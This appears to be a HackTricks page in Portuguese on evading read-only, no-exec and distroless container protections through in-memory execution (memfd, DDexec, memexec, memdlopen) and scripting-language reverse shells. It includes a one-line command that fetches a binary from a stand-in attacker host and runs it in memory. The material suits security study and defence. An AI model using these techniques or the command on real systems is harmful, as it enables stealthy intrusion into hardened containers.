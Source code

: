 # Bypass de proteções FS: sistema de arquivos somente leitura / sem execução / Distroless

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Vídeos

Nos vídeos a seguir, você pode encontrar as técnicas mencionadas nesta página explicadas mais detalhadamente:

* [**DEF CON 31 - Explorando Manipulação de Memória no Linux para Stealth e Evasão**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusões stealth com DDexec-ng & dlopen() em memória - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## Cenário somente leitura / sem execução

É cada vez mais comum encontrar máquinas linux montadas com proteção de sistema de arquivos **somente leitura (ro)**, especialmente em contêineres. Isso ocorre porque executar um contêiner com sistema de arquivos ro é tão fácil quanto definir **`readOnlyRootFilesystem: true`** no `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

No entanto, mesmo que o sistema de arquivos esteja montado como ro, **`/dev/shm`** ainda será gravável, então é falso dizer que não podemos escrever nada no disco. No entanto, esta pasta será **montada com proteção sem execução**, então se você baixar um binário aqui, você **não poderá executá-lo**.

{% hint style="warning" %}
Do ponto de vista de um red team, isso torna **complicado baixar e executar** binários que não estão no sistema (como backdoors ou enumeradores como `kubectl`).
{% endhint %}

## Bypass mais fácil: Scripts

Note que mencionei binários, você pode **executar qualquer script** desde que o interpretador esteja dentro da máquina, como um **script shell** se `sh` estiver presente ou um **script python** se `python` estiver instalado.

No entanto, isso não é suficiente para executar seu backdoor binário ou outras ferramentas binárias que você possa precisar executar.

## Bypasses de Memória

Se você quer executar um binário, mas o sistema de arquivos não permite, a melhor maneira de fazer isso é **executando-o da memória**, já que as **proteções não se aplicam lá**.

### Bypass FD + syscall exec

Se você tem alguns motores de script poderosos dentro da máquina, como **Python**, **Perl** ou **Ruby**, você poderia baixar o binário para executar da memória, armazená-lo em um descritor de arquivo de memória (`create_memfd` syscall), que não vai ser protegido por essas proteções e então chamar uma **syscall `exec`** indicando o **fd como o arquivo a ser executado**.

Para isso, você pode usar facilmente o projeto [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Você pode passar um binário e ele irá gerar um script no idioma indicado com o **binário comprimido e codificado em b64** com as instruções para **decodificar e descomprimir** em um **fd** criado chamando a syscall `create_memfd` e uma chamada para a syscall **exec** para executá-lo.

{% hint style="warning" %}
Isso não funciona em outras linguagens de script como PHP ou Node porque elas não têm uma **maneira padrão de chamar syscalls brutos** de um script, então não é possível chamar `create_memfd` para criar o **fd de memória** para armazenar o binário.

Além disso, criar um **fd regular** com um arquivo em `/dev/shm` não funcionará, pois você não terá permissão para executá-lo devido à **proteção sem execução**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) é uma técnica que permite **modificar a memória do seu próprio processo** sobrescrevendo seu **`/proc/self/mem`**.

Portanto, **controlando o código assembly** que está sendo executado pelo processo, você pode escrever um **shellcode** e "mutar" o processo para **executar qualquer código arbitrário**.

{% hint style="success" %}
**DDexec / EverythingExec** permitirá que você carregue e **execute** seu próprio **shellcode** ou **qualquer binário** da **memória**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Para mais informações sobre esta técnica, consulte o Github ou:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) é o próximo passo natural do DDexec. É um **shellcode DDexec demonizado**, então toda vez que você quiser **executar um binário diferente** não precisa reiniciar o DDexec, você pode simplesmente executar o shellcode memexec via a técnica DDexec e depois **comunicar com este daemon para passar novos binários para carregar e executar**.

Você pode encontrar um exemplo de como usar **memexec para executar binários a partir de um PHP reverse shell** em [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Com um propósito semelhante ao DDexec, a técnica [**memdlopen**](https://github.com/arget13/memdlopen) permite uma **maneira mais fácil de carregar binários** na memória para depois executá-los. Isso poderia até permitir carregar binários com dependências.

## Bypass Distroless

### O que é distroless

Contêineres distroless contêm apenas os **componentes mínimos necessários para executar uma aplicação ou serviço específico**, como bibliotecas e dependências de runtime, mas excluem componentes maiores como um gerenciador de pacotes, shell ou utilitários do sistema.

O objetivo dos contêineres distroless é **reduzir a superfície de ataque dos contêineres eliminando componentes desnecessários** e minimizando o número de vulnerabilidades que podem ser exploradas.

### Reverse Shell

Em um contêiner distroless você pode **nem mesmo encontrar `sh` ou `bash`** para obter um shell regular. Você também não encontrará binários como `ls`, `whoami`, `id`... tudo o que você normalmente executa em um sistema.

{% hint style="warning" %}
Portanto, você **não** será capaz de obter um **reverse shell** ou **enumerar** o sistema como normalmente faz.
{% endhint %}

No entanto, se o contêiner comprometido estiver executando, por exemplo, um web flask, então o python está instalado, e assim você pode obter um **Python reverse shell**. Se estiver executando node, você pode obter um Node rev shell, e o mesmo vale para praticamente qualquer **linguagem de script**.

{% hint style="success" %}
Usando a linguagem de script, você poderia **enumerar o sistema** usando as capacidades da linguagem.
{% endhint %}

Se não houver proteções de **somente leitura/sem execução**, você poderia abusar do seu reverse shell para **escrever no sistema de arquivos seus binários** e **executá-los**.

{% hint style="success" %}
No entanto, neste tipo de contêineres, essas proteções geralmente existirão, mas você poderia usar as **técnicas de execução de memória anteriores para contorná-las**.
{% endhint %}

Você pode encontrar **exemplos** de como **explorar algumas vulnerabilidades de RCE** para obter linguagens de script **reverse shells** e executar binários da memória em [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas dicas de hacking enviando PRs para os repositórios do Github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
